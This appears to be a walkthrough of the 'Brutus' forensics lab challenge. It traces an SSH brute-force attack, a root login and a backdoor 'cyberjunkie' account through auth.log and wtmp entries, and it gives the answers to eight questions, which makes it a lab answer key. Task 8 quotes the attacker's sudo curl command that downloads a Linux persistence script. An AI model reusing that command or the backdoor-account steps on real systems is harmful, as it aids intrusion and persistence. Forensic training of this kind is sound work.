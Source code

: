 ### Task 1

Opening the `auth.log` file and looking at the content, we see that all the logs are generated at the IP `172.31.35.28`.
- This is not the IP of the attacker, but the IP of the machine that is generating the logs. (lol)

Scrolling down, we see that there is another IP address that tries to authenticate multiple times to the user `admin` but *fails*.
- The IP here is `65.2.161.68`.

![](./pics/brutus-1.png)

> Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack? : `65.2.161.68`

### Task 2

Scrolling through the multiple attempts by the same IP address, we see that multiple usernames are used to try and get access.
- However, we see one entry at `06:31:40` that shows an accepted password for the user `root`.

![](./pics/brutus-2.png)

> The brute force attempts were successful and attacker gained access to an account on the server. What is the username of the account? : `root`

### Task 3

Looking though `auth.log`, we see that the user still tries to login with other users, but with no success.
- The user then submits the accepted password again for the `root` user at `06:32:44`. This was the authentication time.

Going to the `wtmp` file and looking for an event at this time or slightly after it, we see the following:
- The `wtmp` file is used to hold historical login information.

![](./pics/brutus-3.png)

We see that there is a line at the exact time, (after it by 1 second) coming from the same IP of the attacker user, and with the username of `root`.
- We can use this [man page](https://linux.die.net/man/5/wtmp) for `wtmp` to understand the the number `7`, which is indicative of a process running.

So we see a process running that has the username of `root` and the remote host name, or IP address of `65.2.161.68`, and it is in the `wtmp` file, indicating a login attempt.
- The time of this event being logged is the answer to this question.

> Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact. : `2024-03-06 06:32:45`.

### Task 4

Checking the `auth.log` file, we see that after the successful authentication for the `root` user, a session is opened and a session number is assigned right after.

![](./pics/brutus-4.png)

> SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2? : `37`.

### Task 5

Scrolling through `auth.log` we see a `useradd` command that is logged.
- A new user was added with the name `cyberjunkie`.

![](./pics/brutus-5.png)

> The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account? : `cyberjunkie`.

### Task 6

The *persistence* tactic by MITRE has several techniques, one of them being *Create Account*.
- Opening the page of this [technique](https://attack.mitre.org/techniques/T1136/), there are several sub techniques present.
- The only one that makes sense is the *local account* sub technique that has an ID of `T1136.001`.

The `cyberjunkie` user was created for persistence, and it was added to the `sudo` group for elevated privileges.

> What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account? : `T1136.001`.

### Task 7

Scrolling through `auth.log`, we see that the `root` user disconnects, and the session is terminated.
- The time of this event is the answer for this question.

Right after that, the `cyberjunkie` user logs in with malicious intent.

![](./pics/brutus-6.png)

However, we only see here the time, with no date.
- Using the `wtmp` file, we see that at the same time there is an entry with an ID of `8`, which is indicative of a dead process, or the connection being terminated.

![](./pics/brutus-7.png)

> What time did the attacker's first SSH session end according to auth.log? `2024-03-06 06:37:24`.

### Task 8

Scrolling through `auth.log`, we see a command being executed using `sudo` privilege.

![](./pics/brutus-8.png)

The answer for this question is the value of the `COMMAND` variable.

> The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo? : `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` .

---

